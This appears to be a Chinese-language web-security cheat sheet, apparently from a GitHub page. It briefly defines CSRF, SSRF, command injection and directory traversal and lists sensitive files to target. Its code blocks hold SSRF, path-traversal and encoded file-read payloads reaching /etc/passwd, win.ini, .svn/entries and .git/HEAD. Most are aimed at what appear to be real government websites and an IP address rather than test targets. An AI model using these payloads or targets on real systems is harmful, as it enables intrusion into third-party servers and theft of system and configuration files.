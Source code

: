 ## CSRF

> 跨站请求伪造 (Cross-Site Request Forgery, CSRF)，也被称为 One Click Attack 或者 Session Riding ，通常缩写为CSRF，是一种对网站的恶意利用。尽管听起来像XSS，但它与XSS非常不同，XSS利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站

## SSRF

> 服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统

```
通过各种非http协议

file:///path/to/file

http://183.63.186.68/Web/file:%2f%2f%2fetc%2fpasswd.html
```

## 命令注入

> 命令注入通常因为指Web应用在服务器上拼接系统命令而造成的漏洞。
>
> 该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名/IP/掩码/网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

## 目录穿越

> 目录穿越（也被称为目录遍历/directory traversal/path traversal）是通过使用 ../ 等目录控制序列或者文件的绝对路径来访问存储在文件系统上的任意文件和目录，特别是应用程序源代码、配置文件、重要的系统文件等

```
../

..\

..;/

http://dfz.gd.gov.cn/index/ztlm/szfzg/gctj/nj//../../../../Gemfile
```

## 文件读取

考虑读取可能有敏感信息的文件

- 用户目录下的敏感文件：.bash_history/.zsh_history/.profile/.bashrc/.gitconfig/.viminfopasswd
- 应用的配置文件：/etc/apache2/apache2.conf, /etc/nginx/nginx.conf
- 应用的日志文件：/var/log/apache2/access.log, /var/log/nginx/access.log
- 站点目录下的敏感文件：.svn/entries.git/HEADWEB-INF/web.xml.htaccess
- 特殊的备份文件：.swp/.swo/.bak/index.php
- Python的Cache：__pycache__\__init__.cpython-35.pyc

```
http://www.gdzwfw.gov.cn/portal/static//..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c/windows/win.ini

http://gcjs.jiangmen.cn/framework-ui/src//%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd

http://zfbz.maoming.gov.cn/css/.svn/entries

http://ggzy.zhuhai.gov.cn:8092/GPC/.git/HEAD
```
